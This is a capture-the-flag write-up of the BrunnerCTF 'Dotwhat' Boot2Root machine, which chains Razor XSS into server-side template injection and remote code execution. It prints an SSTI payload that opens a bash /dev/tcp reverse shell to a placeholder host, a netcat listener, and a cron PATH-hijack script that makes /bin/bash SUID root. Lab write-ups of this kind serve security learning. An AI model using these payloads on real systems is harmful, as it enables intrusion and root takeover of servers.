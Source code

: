 # Dotwhat – Boot2Root (BrunnerCTF)

In this writeup, we’ll go through solving the **Dotwhat** Boot2Root challenge from **BrunnerCTF**.  
The target is a `.NET` web application, and we’ll exploit it step-by-step to gain user and root access.
![Image](images/Pasted%20image%2020250824164409.png)
<br/>

![Image](images/Pasted%20image%2020250824172856.png)
<br/>


---

## 1. Initial Recon
![Image](images/Pasted%20image%2020250824164640.png)
<br/>

After opening the website, we’re presented with a form that has **three input fields**.

Since the app is built with **.NET**, my first thought was to test for **XSS injection** and **SQL injection** in the fields, lets start with **XSS**.

I injected the following payload into each input to identify which one is vulnerable:
![Image](images/Pasted%20image%2020250824164817.png)
<br/>

```html
<script>alert("xss 1 or 2 or 3")</script>
```

After submitting, only the **Instruction** input field triggered the alert.  
This confirmed an **XSS vulnerability** due to raw HTML rendering.
![Image](images/Pasted%20image%2020250824164937.png)
<br/>
![Image](images/Pasted%20image%2020250824165004.png)
<br/>

---
## 2. From XSS to SSTI

By fingerprinting the application with **Wappalyzer**, we confirmed it’s a **.NET web app**.  
In .NET (Razor pages), server-side template injection (SSTI) is possible by using `@` syntax.
![Image](images/Pasted%20image%2020250824165106.png)
<br/>

I tested SSTI with a simple arithmetic payload:

```html
<script>
@(7 * 7)
</script>
```
![Image](images/Pasted%20image%2020250824165444.png)
<br/>

Looking at the **page source**, I saw the value `49` — proof that SSTI was working!  
This meant we could escalate from XSS → SSTI → RCE.
<br/>
![Image](images/Pasted%20image%2020250824165615.png)
<br/>


---

## 3. Achieving Remote Code Execution

To determine the OS, I attempted to run `pwd`:

```html
<script>
@{
    var proc = new System.Diagnostics.Process();
    proc.StartInfo = new System.Diagnostics.ProcessStartInfo("pwd");
    proc.StartInfo.RedirectStandardOutput = true;
    proc.StartInfo.UseShellExecute = false;
    proc.Start();
    @proc.StandardOutput.ReadToEnd();
}
</script>
```

![Image](images/Pasted%20image%2020250824170349.png)
<br/>


The output confirmed we were on a **Linux host**.
<br/>
![Image](images/Pasted%20image%2020250824170423.png)
<br/>

### Reverse Shell Payload

Next, I crafted a reverse shell payload to connect back to my attacker machine using ngrok:
![Image](images/Pasted%20image%2020250824170454.png)
<br/>
![Image](images/Pasted%20image%2020250824170555.png)
<br/>
![Image](images/Pasted%20image%2020250824170749.png)
<br/>


```html
<script>
@{
    var proc = new System.Diagnostics.Process();
    proc.StartInfo = new System.Diagnostics.ProcessStartInfo("/bin/bash", "-c \"/bin/bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1\"");
    proc.StartInfo.UseShellExecute = false;
    proc.StartInfo.RedirectStandardOutput = true;
    proc.StartInfo.RedirectStandardError = true;
    proc.Start();
    @proc.StandardOutput.ReadToEnd()
    @proc.StandardError.ReadToEnd()
}
</script>
```

On my listener (`nc -lvnp 4444`), I received a shell as the **user**.
![Image](images/Pasted%20image%2020250824170929.png)
<br/>

---

## 4. User Flag

With the shell established:

```bash
cd ~
cat user.txt
```

Output:

```
brunner{Something here}
```

User flag captured ✅

---

## 5. Privilege Escalation

To escalate, I enumerated **SUID binaries**:

```bash
find find / -perm -4000 -o -perm -2000 -type f 2>/dev/null    
/usr/bin/chage
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/expiry
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/crontab
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pam_extrausers_chkpwd
/usr/sbin/unix_chkpwd

```

Among them, `/usr/bin/crontab` stood out.

### Cron Exploit

Checking `/etc/cron.d/`, I found a custom cron job:

```bash
ls -la /etc/cron.d/          
total 12
drwxr-xr-x. 1 root root  14 Aug 23 19:11 .
drwxr-xr-x. 1 root root  12 Aug 23 19:11 ..
-rw-r--r--. 1 root root 102 Mar 31  2024 .placeholder
-rw-r--r--. 1 root root 201 Apr  8  2024 e2scrub_all
-rw-r--r--. 1 root root 189 Aug 23 19:11 migrate
cat /etc/cron.d/migrate    
* * * * * root cd /home/user/app && /usr/bin/dotnet ef database update >> /var/log/migrate.log 2>&1
```

Notice: The `PATH` includes `/opt/devtools` and the cron executes `dotnet`.  
Since `/opt/devtools/` is writable by our user, we can hijack it.

I created a malicious fake `dotnet` binary:

```bash
echo '#!/bin/bash
chmod u+s /bin/bash' > /opt/devtools/dotnet
chmod +x /opt/devtools/dotnet
```

After a minute, cron executed our payload and `/bin/bash` became SUID.

---

## 6. Root Shell & Flag

Now I spawned a root shell:

```bash
/bin/bash -p
id
```

```
uid=1001(user) gid=1001(user) euid=0(root) groups=1001(user),100(users)
```

We are **root**!

Finally, retrieving the root flag:

```bash
cd /root
cat root.txt
```

Output:

```
brunner{SomethingSecret here}
```

Root flag captured ✅

---

## Conclusion

This challenge demonstrated a full attack chain:

1. **XSS → SSTI** in a .NET Razor app
    
2. **SSTI → RCE** with `System.Diagnostics.Process`
    
3. **Reverse shell** for initial foothold
    
4. **Cron + PATH hijacking** for privilege escalation
    
5. **Root access** obtained successfully
    

A neat and realistic Boot2Root machine! 🚩
